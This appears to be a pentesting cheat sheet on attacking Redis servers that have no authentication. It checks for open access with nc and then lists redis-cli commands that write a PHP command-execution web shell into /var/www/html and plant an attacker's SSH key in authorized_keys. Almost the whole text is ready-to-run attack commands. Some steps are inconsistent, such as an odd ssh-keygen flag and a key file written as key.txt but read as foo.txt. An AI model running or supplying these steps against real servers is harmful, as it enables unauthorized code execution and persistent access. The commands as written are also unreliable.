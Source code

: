

### Preparation

Install **[1]** or **[2]**:

```
root@kali:$ mkdir ~/tools/redis-cli-go && cd ~/tools/redis-cli-go
root@kali:$ wget [1] -O redis-cli-go && chmod +x redis-cli-go
root@kali:$ ln -s ~/tools/redis-cli-go/redis-cli-go /usr/local/bin/redis-cli-go && cd -
```

1. [github.com/holys/redis-cli/releases](https://github.com/holys/redis-cli/releases)
2. [github.com/antirez/redis](https://github.com/antirez/redis)

Check if vulnarable:

```
root@kali:$ nc 127.0.0.1 6379
Escape character is '^]'.
echo "Hey, no AUTH required!"
$21
Hey, no AUTH required!
quit
+OK
Connection closed by foreign host.
```



### Web Shell

```
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ redis-cli -h 127.0.0.1 set pwn '<?php system($_REQUEST['cmd']); ?>'
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename shell.php
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/www/html/
root@kali:$ redis-cli -h 127.0.0.1 save
```

* [book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)



### Inject SSH PubKey

```
root@kali:$ ssh-keygen -t ecdsa -s 521 -f key
root@kali:$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
root@kali:$ redis-cli -h 127.0.0.1 flushall
root@kali:$ cat foo.txt | redis-cli -h 127.0.0.1 -x set pwn
root@kali:$ redis-cli -h 127.0.0.1 config set dbfilename authorized_keys
root@kali:$ redis-cli -h 127.0.0.1 config set dir /var/lib/redis/.ssh
root@kali:$ redis-cli -h 127.0.0.1 save
```



